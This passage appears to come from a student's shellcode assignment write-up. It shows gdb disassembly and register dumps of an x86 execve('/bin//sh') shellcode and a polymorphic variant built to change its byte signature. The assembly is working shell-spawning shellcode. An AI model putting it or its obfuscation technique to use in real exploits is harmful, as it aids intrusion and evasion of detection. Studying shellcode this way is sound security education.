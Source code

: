```nasm
   0x0804808a <+10>:	push   0x6e69622f
   0x0804808f <+15>:	mov    ebx,esp
   0x08048091 <+17>:	mov    al,0xb
   0x08048093 <+19>:	int    0x80
End of assembler dump.
(gdb) break *0x08048093
Breakpoint 2 at 0x8048093
(gdb) c
Continuing.

Breakpoint 2, 0x08048093 in _start ()
(gdb) i r
eax            0xb	11
ecx            0x0	0
edx            0x0	0
ebx            0xbffff6d4	-1073744172
esp            0xbffff6d4	0xbffff6d4
ebp            0x0	0x0
esi            0x0	0
edi            0x0	0
eip            0x8048093	0x8048093 <_start+19>
eflags         0x206	[ PF IF ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x0	0
(gdb) x/12bx 0xbffff6d4
0xbffff6d4:	0x2f	0x62	0x69	0x6e	0x2f	0x2f	0x73	0x68
0xbffff6dc:	0x00	0x00	0x00	0x00
(gdb)
```

#### Disassembly of the Polymorphic Shellcode

```nasm
skawa@ubuntu:~/Desktop/code/assignment/assignment6$ gdb -q ./execve-bin-sh-stack
Reading symbols from /home/skawa/Desktop/code/assignment/assignment6/execve-bin-sh-stack...(no debugging symbols found)...done.
(gdb) break _start
Breakpoint 1 at 0x8048080
(gdb) run
Starting program: /home/skawa/Desktop/code/assignment/assignment6/execve-bin-sh-stack

Breakpoint 1, 0x08048080 in _start ()
(gdb) disas
Dump of assembler code for function _start:
=> 0x08048080 <+0>:	xor    ebx,ebx
   0x08048082 <+2>:	push   ebx
   0x08048083 <+3>:	pop    eax
   0x08048084 <+4>:	push   eax
   0x08048085 <+5>:	mov    bl,0x6
   0x08048087 <+7>:	add    bl,bl
   0x08048089 <+9>:	dec    bl
   0x0804808b <+11>:	pushw  0x6873
   0x0804808f <+15>:	pushw  0x2f2f
   0x08048093 <+19>:	push   0x6e69622f
   0x08048098 <+24>:	mov    eax,esp
   0x0804809a <+26>:	xchg   ebx,eax
   0x0804809b <+27>:	int    0x80
End of assembler dump.
(gdb) break *0x0804809b
Breakpoint 2 at 0x804809b
```